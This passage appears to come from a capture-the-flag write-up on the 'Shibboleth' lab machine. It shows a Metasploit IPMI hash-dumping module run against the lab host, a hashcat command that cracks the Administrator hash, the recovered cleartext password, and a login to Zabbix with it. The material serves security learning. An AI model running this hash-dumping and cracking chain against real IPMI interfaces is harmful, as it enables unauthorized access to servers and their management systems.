 There's also a metasploit module for dumping password hashes using this vulnerability: https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/

![](/assets/img/posts/shibboleth/module-info.png)

Dump some password hash 
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.10.11.124
RHOSTS => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_hASHCAT_FILE hash.cat
OUTPUT_hASHCAT_FILE => hash.cat
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

dumped hashes output in the `hash.cat` file and directly load in hashcat
```bash
❯ hashcat --username -m 7300 hash.cat /usr/share/wordlists/rockyou.txt --show
10.10.11.124 Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20:ilovepumkinpie1
```

Creds: `Administrator:ilovepumkinpie1`

And successfully logged in to zabbix(`zabbix.shibboleth.htb`) with found creds.

